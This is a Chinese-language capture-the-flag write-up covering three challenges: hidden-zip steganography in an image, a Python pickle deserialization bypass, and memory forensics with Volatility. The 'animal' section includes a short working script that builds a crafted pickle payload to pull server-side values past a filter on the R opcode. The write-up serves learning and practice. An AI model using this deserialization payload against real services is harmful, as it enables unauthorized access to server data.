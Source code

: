 ### weird logo

用hex editor打开图片，可以发现文件最后有多余字节，根据标志性的`KP`猜测是按字节倒置的zip文件，检查后发现猜测正确。尝试多种方法破解zip文件都以失败告终，于是猜测图片中也有隐藏的信息，（一番搜索后），使用*Stegsolve.jar*打开图片，在gray bits模式下发现了类似二维码的形状，但是中间部分被污染了，于是将alpha, red, green, blue的plane 0分别输出成图片，通过ps拼接在一起，得到一个可以扫描的二维码，其内容即为zip的解压密码。

### animal

通过搜索引擎可以发现*pickle*反序列化的漏洞，初次尝试使用`__reduce__`绕过，但是`b'R'`被过滤，因此失败了。

后来改变思路，尝试一个比较简单的办法，使服务端反序列化的时候，使用服务端上的`favirote.name`和`favirote.category`分别作为`Animal`对象的两个属性的值。

Talk is cheap, show me the code:

```python
import base64
import pickle
import favorite


class Animal:
    def __init__(self, name, category):
        self.name = name
        self.category = category

    def __repr__(self):
        return f'Animal(name={self.name!r}, category={self.category!r})'

    def __eq__(self, other):
        return type(other) is Animal and self.name == other.name and self.category == other.category


animal = Animal(favorite.name, favorite.category)
pickle_data = base64.b64encode(pickle.dumps(animal)).decode()
print(pickle_data)
```

`favorite.py`:

```python
def name():
    pass


def category():
    pass
```

### anti-hack01

使用*volatility*读取memory dump，使用`pstree`和`filescan`等功能检查了notepad和一些可以的文件后都没有发现flag，最后只剩下了`mspaint.exe`，通过搜索引擎可以发现[external link: 利用volatility与Gimp实现Windows内存取证](https://segmentfault.com/a/1190000018813033)，按照步骤即可得到手画的flag，印象中还要进行翻转的操作，不过这些都是trivial。具体高度和宽度我不记得了，~~只记得当时调了好一会儿~~。
